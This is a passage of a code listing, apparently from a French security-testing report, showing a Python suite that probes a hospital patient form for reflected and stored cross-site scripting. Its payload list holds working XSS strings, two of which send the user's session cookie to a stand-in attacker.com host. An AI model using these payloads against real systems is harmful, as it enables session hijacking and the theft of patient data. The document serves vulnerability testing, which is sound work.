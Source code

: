 \begin{lstlisting}[style=pythonstyle,caption=Suite de tests XSS automatises pour application medicale]
        detected_payloads = []
        
        for payload in payloads:
            params = {'search': payload}
            
            try:
                response = self.session.get(f"{self.target_url}/hospital_patient_form.php", params=params)
                
                # Verification si le payload est reflete sans echappement
                if payload in response.text and "htmlspecialchars" not in response.text:
                    detected_payloads.append(payload)
                    self.logger.warning(f"XSS vulnerability detected with payload: {payload[:50]}...")
                
            except Exception as e:
                self.logger.error(f"Request failed for payload {payload}: {str(e)}")
        
        return {
            "test_name": test_name,
            "total_payloads": len(payloads),
            "successful_payloads": len(detected_payloads),
            "vulnerable": len(detected_payloads) > 0,
            "payloads": detected_payloads,
            "risk_level": "HIGH" if len(detected_payloads) > 3 else "MEDIUM" if len(detected_payloads) > 0 else "LOW"
        }

    def test_stored_xss_patient_form(self):
        """Test Stored XSS dans formulaire patient"""
        test_name = "Stored XSS - Patient Form"
        
        payloads = [
            "<script>alert('Stored-XSS-Patient-Notes')</script>",
            "<img src=x onerror=this.src='http://attacker.com/steal?cookie='+document.cookie>",
            "<script>document.location='http://attacker.com/xss?cookie='+document.cookie</script>",
            "<svg/onload=alert('Medical-Data-XSS')>",
            "<details open ontoggle=alert('HTML5-XSS')>",
            "<script>if(document.querySelector('input[name=\"search\"]')){alert('Form-Present')}</script>"
        ]
        
        successful_injections = []
        
        for payload in payloads:
            # Donnees patient avec payload XSS
            patient_data = {
                'name': f'Test Patient {time.time()}',
                'dob': '1990-01-01',
                'diagnosis': 'Test diagnosis',
                'notes': payload  # Injection XSS dans notes
            }
            
            try:
                # Soumission du formulaire
                response = self.session.post(f"{self.target_url}/hospital_patient_form.php", data=patient_data)
                

\end{lstlisting}

